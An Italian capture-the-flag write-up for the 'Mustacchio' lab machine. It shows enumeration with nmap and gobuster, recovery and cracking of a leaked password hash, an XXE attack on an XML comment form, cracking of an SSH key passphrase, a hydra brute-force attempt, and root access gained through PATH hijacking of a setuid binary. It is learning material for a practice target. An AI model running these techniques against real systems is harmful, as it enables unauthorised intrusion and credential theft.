

# Mustacchio

Configuriamo la macchina kali

```bash
kali@kali:~/Desktop/CTF/Mustacchio$ echo "10.130.140.131 mustacchio.local" | sudo tee -a /etc/hosts
10.130.140.131 mustacchio.local
```

Come prima cosa, come consueto procedo ad enumerare i servizi disponibili nella macchina, usando `nmap`

```bash
kali@kali:~/Desktop/CTF/Mustacchio$ **sudo nmap -sS -sV -sC -p- mustacchio.local**    
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-25 16:34 -0400
Stats: 0:01:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 48.37% done; ETC: 16:37 (0:01:16 remaining)                                                                                                                                        
Stats: 0:02:28 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan                                                                                                                                   
SYN Stealth Scan Timing: About 74.81% done; ETC: 16:38 (0:00:50 remaining)                                                                                                                                        
Stats: 0:02:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan                                                                                                                                   
SYN Stealth Scan Timing: About 85.50% done; ETC: 16:38 (0:00:28 remaining)                                                                                                                                        
Nmap scan report for 10.130.140.131                                                                                                                                                                               
Host is up (0.028s latency).                                                                                                                                                                                      
Not shown: 65532 filtered tcp ports (no-response)                                                                                                                                                                 
PORT     STATE SERVICE VERSION                                                                                                                                                                                    
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)                                                                                                                              
| ssh-hostkey:                                                                                                                                                                                                    
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)                                                                                                                                                    
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)                                                                                                                                                   
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)                                                                                                                                                 
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Mustacchio | Home
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.79 seconds
```

| Servizio | Porta | Versione | Note |
| --- | --- | --- | --- |
| **ssh** | 22 | OpenSSH 7.2p2 | Ubuntu |
| **http** | 80 | Apache httpd 2.4.18 |  |
| **http** | 8765 | nginx 1.10.3 |  |

Comicniamo con l’enumerare gli endpoint mentre navighiamo la pagina `mustacchio.local:80` e `mustacchio.local:8765`

```bash
**kali@kali:~/Desktop/CTF/Mustacchio$ gobuster dir -u http://mustacchio.local -w /usr/share/seclists/Discovery/Web-Content/common.txt** 
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mustacchio.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 281]
.htaccess            (Status: 403) [Size: 281]
.htpasswd            (Status: 403) [Size: 281]
custom               (Status: 301) [Size: 321] [--> http://mustacchio.local/custom/]
fonts                (Status: 301) [Size: 320] [--> http://mustacchio.local/fonts/]
images               (Status: 301) [Size: 321] [--> http://mustacchio.local/images/]
index.html           (Status: 200) [Size: 1752]
robots.txt           (Status: 200) [Size: 28]
server-status        (Status: 403) [Size: 281]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
=============================================================== c
```

```bash
                                                                                                                                                                                                                  
**kali@kali:~/Desktop/CTF/Mustacchio$ gobuster dir -u http://mustacchio.local:8765 -w /usr/share/seclists/Discovery/Web-Content/common.txt**
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mustacchio.local:8765
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 178]
.htaccess            (Status: 403) [Size: 178]
.htpasswd            (Status: 403) [Size: 178]
assets               (Status: 301) [Size: 194] [--> http://mustacchio.local:8765/assets/]
auth                 (Status: 301) [Size: 194] [--> http://mustacchio.local:8765/auth/]
index.php            (Status: 200) [Size: 1363]
Progress: 4750 / 4750 (100.00%)
===============================================================
Finished
===============================================================
```

Analizzando i risultati del primo gobuster su `mustacchio.local:80` c’è l’endpoit `custom/`  che sembra molto interessante. Una volta aperto:



Dove `users.bak` sembra promettente

```bash
kali@kali:~/Desktop/CTF/Mustacchio$ wget http://mustacchio.local/custom/js/users.bak -q
 
kali@kali:~/Desktop/CTF/Mustacchio$ file users.bak                                             
users.bak: SQLite 3.x database, last written using SQLite version 3034001, file counter 2, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 2
                                                                                                                                                                                                             
kali@kali:~/Desktop/CTF/Mustacchio$ 
```

E’ un database `sqlite 3.x` possiamo aprirlo con `sqlite3 users.bak`

```bash
**kali@kali:~/Desktop/CTF/Mustacchio$ sqlite3 users.bak
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite>** 
```

Ora possiamo fare le query come in qualsiasi DB relazionale

```bash
kali@kali:~/Desktop/CTF/Mustacchio$ sqlite3 users.bak
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> .schema users
CREATE TABLE users(username text NOT NULL, password text NOT NULL);
sqlite> select * from users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
sqlite> 
```

Abbiamo le credenziali `admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b`  dove però questo sembra proprio un hash, identifichiamolo con `hashid` oppure `hashcat` 

```bash
kali@kali:~/Desktop/CTF/Mustacchio$ hashcat --identify admin_password.txt                     
The following 7 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    100 | SHA1                                                       | Raw Hash
   6000 | RIPEMD-160                                                 | Raw Hash
    170 | sha1(utf16le($pass))                                       | Raw Hash
   4700 | sha1(md5($pass))                                           | Raw Hash salted and/or iterated
  18500 | sha1(md5(md5($pass)))                                      | Raw Hash salted and/or iterated
   4500 | sha1(sha1($pass))                                          | Raw Hash salted and/or iterated
    300 | MySQL4.1/MySQL5                                            | Database Server
```

Analizzando il contesto direi `MySQL4.1/MySQL5` magari la password deriva da una migrazione da un precedente database `MySQL` non è da escludere però la possibilità che si tratti di `SHA1` perciò terremo in considerazione sempre tutti e due. Facciamo un primo check su [crackstation.net](http://crackstation.net) se esiste già un associazione con una password con questo hash. e infatti è stata trovata [omessa per non rovinare la challenge agli altri utenti] (*Possiamo però confermare trattarsi `SHA1`*). Per completezza, nonostante sia superfluo, la provo a craccare localmente usando `hashcat`

```bash
kali@kali:~/Desktop/CTF/Mustacchio$ hashcat -m 100 -a 0 admin_password.txt /usr/share/wordlists/rockyou.txt               
hashcat (v7.1.2) starting

[...]

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

1868e36a6d2b17d4c2745f1659433a54d4bc5f4b:[[OMMITED]]        
                                                          
[...]

Started: Fri Sep 25 17:00:04 2026
Stopped: Fri Sep 25 17:00:09 2026
                                                                                         
kali@kali:~/Desktop/CTF/Mustacchio$ `
```

Abbiamo confermato la password, possiamo provare ad usarla per accedere a `mustacchio.local:8765`


Aprendo il codice sorgente vediamo questa sezione:


che fa capire due cose

1. C’è una pagina segreta

```bash
kali@kali:~/Desktop/CTF/Mustacchio$ curl http://mustacchio.local:8765/auth/dontforget.bak 
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>     
```

Ok………..  

1. La textarea deve essere un XML

Infatti se noi proviamo a inserire qualcosa non XML otteniamo questa schermata


Che ci fa capire che questo `XML` è composto da tre campi: `Name, Author, Comment` 

C’è inoltre un altro commento


Quindi c’è un utente `barry` che ha accesso ssh al server. Posso provare nel frattempo che esploro a lanciare un `bruteforce` con `hydra` .

```bash
kali@kali:~/Desktop/CTF/Mustacchio$ hydra -l barry -P /usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt mustacchio.local ssh
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-09-25 17:20:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 22 login tries (l:1/p:22), ~2 tries per task
[DATA] attacking ssh://mustacchio.local:22/
[ERROR] target ssh://10.130.140.131:22/ does not support password authentication (method reply 4).
                                                                                                                                                                                                                  
kali@kali:~/Desktop/CTF/Mustacchio$ 
```

Ok dietrofront **non** supporta autenticazione tramite password

Ora abbiamo quindi un esempio di commento (`curl http://mustacchio.local:8765/auth/dontforget.bak`  )

Proviamo a copia incollarlo e vediamo cosa succede


BUONO! il formato è corretto


È vulernabile ad attacchi **XXE**! Quindi sapendo che l’utente è `barry` e c’è una connessione `ssh` con solo `key` come autenticazione, dobbiamo in qualche modo accedere a questa key


Ricavata, ora me la salvo e procediamo con il login in `ssh` 


Procediamo quindi a crackare la passphrase con `John The Ripper` 

```bash
kali@kali:~/Desktop/CTF/Mustacchio$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt          
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**urieljames**       (ssh_key)     
1g 0:00:00:02 DONE (2026-09-26 11:55) 0.3472g/s 1031Kp/s 1031Kc/s 1031KC/s urielluna..urielito1000
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Trovata la passphrase, possiamo loggarci e prendere la prima flag

.png)

Ora è arrivato il momento del privelage escalation. 

Lanciamo: `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null` ma sfortunatamente non c’è nessun eseguibile interessante con `suid` flag

Navigando nel filesystem ho trovato:

```bash
barry@mustacchio:/home/joe$ pwd
/home/joe
barry@mustacchio:/home/joe$ file live_log 
live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped
barry@mustacchio:/home/joe$ strings live_log | grep -iE "tail|cat|less|log|/bin|/usr"
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
barry@mustacchio:/home/joe$ 
```

Questo eseguibile ha permessi root! 


Ora siamo joe che è root 😃

Ho imparato anche una nuova cosa

> Un singolo programmatore distratto che scrive `system("tail -f /var/log/...")` invece di `system("/usr/bin/tail -f /var/log/...")` apre la porta a root.
> 

